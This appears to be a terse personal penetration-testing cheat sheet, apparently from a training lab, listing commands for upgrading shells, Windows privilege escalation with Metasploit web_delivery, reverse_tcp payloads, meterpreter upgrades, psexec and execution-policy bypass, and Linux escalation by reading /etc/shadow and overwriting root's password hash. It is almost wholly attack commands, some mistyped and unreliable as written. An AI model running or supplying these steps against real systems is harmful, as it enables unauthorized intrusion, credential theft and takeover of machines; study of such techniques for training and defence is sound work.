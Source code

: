 ## Shells
### Upgrading non Interactive Shell
- cat /etc/shells
- /bin/bash -i
- python --version
- python -c 'import pty; pty.spawn("/bin/bash")'
- perl --help
- perl -e 'exec "/bin/bash";'
- ruby: exec "/bin/bash"
- env
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/in
- export TERM=xterm
- export SHELL=bash
## Escalation
### Windows Privilege Escalation Vulnerabilities
- github.com/itm4n/PrivescCheck
- gaining access metasploit module web_delivery
- search web_delivery
- set target PSH\ (Binary)
- set payload windows/shell/reverse_tcp
- set PSH-EncodedCommand false
- set lhost eth1
- exploit
- copyt the given code and then run this in code in windows cmd
- search shell_to_meterpreter
- set lhost eth1
- set session 1
- show advanced
- set Win_Transfer VBS
- migrate explorer process id
- getprivs
- getuid
- cd C:\Users\student\Desktop\PrivesecCheck\\
- goto the repo copy the basic usage from a command prompt
powershell
- paste it and run
- powershell -ep bypass .\script.ps1 (PowerShell command can be used to bypass the default execution policy when running PowerShell scripts from the Windows command line)
-
- WinLogOn Feature
- psexec.py Administrator@<target-ip>
- msfconsole
- search psexec
- use set run
- 
### Linux Privilege Escalation
- weak Permissions
- whoami
- cat /etc/passwd
- groups
- cat /etc/group
- find / -not -type l -perm -o+w
- cat /etc/shadow
- ls -al /etc/shadow
- openssl paswswd -1 -salt abc password123
- copy that value and paste it in root:here:*
- and try for su
